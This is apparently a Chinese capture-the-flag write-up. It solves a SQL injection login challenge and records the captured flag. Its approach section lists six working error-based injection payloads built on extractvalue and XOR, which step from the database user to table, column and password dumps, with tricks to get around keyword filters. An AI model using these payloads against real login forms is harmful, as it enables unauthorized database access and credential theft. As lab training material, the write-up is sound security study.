





## flag
`flag{ae8436e4-86fa-4992-8012-700bf91a9e29}`

## 思路

1. 通过BurpSuite跑一下fuzz.txt，union等关键字被过滤，`updatexml、extractvalue、^`还可以使用，猜测为报错注入。
- username=test'^extractvalue(1,concat(0x7e,user(),0x7e))%23&password=12
  
- username=test'^extractvalue(1,concat(0x7e,database(),0x7e))%23&password=12
  
- username=test'^extractvalue(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where(table_schema)like(database())),0x7e))%23&password=12
  
- username=test'^extractvalue(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where(table_name)like('H4rDsq1')),0x7e))%23&password=12
  
- username=test'^extractvalue(1,concat(0x7e,(select(group_concat(password))from(H4rDsq1)),0x7e))%23&password=12
  
- username=test'^extractvalue(1,concat(0x7e,reverse((select(group_concat(password))from(H4rDsq1))),0x7e))%23&password=12
  

## 总结
报错注入，异或替换and、or，%23替换#(hackbar总结用#有问题，转码)

